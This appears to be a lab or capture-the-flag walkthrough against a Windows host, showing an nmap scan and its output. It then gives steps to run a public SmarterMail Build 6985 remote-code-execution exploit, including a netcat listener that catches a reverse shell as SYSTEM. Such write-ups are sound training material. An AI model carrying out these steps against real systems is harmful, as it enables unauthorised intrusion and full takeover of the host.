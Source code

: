 ## System Info
- **IP:** 192.168.147.65  
- **OS:** Windows (IIS, .NET Remoting)

---

## Nmap Scan
```bash
sudo nmap -p- -sS -sV 192.168.147.65
```
```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds
9998/tcp  open  http          Microsoft IIS httpd 10.0
17001/tcp open  remoting      MS .NET Remoting services
```

- **Port 80:** default IIS page (no application).
- **Port 9998:** SmarterMail login portal.
- **Port 17001:** .NET Remoting (potential RCE vector).

---

## Initial Exploit: SmarterMail RCE

1. **Identify target service**  
   - SmarterMail Build 6985 is known to be RCE‑vulnerable.  
   - Port 9998 hosts the SmarterMail web interface.

2. **Download exploit**  
   - From Exploit‑DB: *SmarterMail Build 6985 – Remote Code Execution*.

3. **Configure exploit**  
   - Edit exploit file to set `RHOST = 192.168.147.65` and `RPORT = 9998`.  
   - Set `LPORT = 21` (for reverse shell).

4. **Prepare listener**  
   ```bash
   sudo nc -lvp 21
   ```

5. **Run exploit**  
   ```bash
   python3 smartermail_rce.py
   ```
   - Received reverse shell as **SYSTEM**.
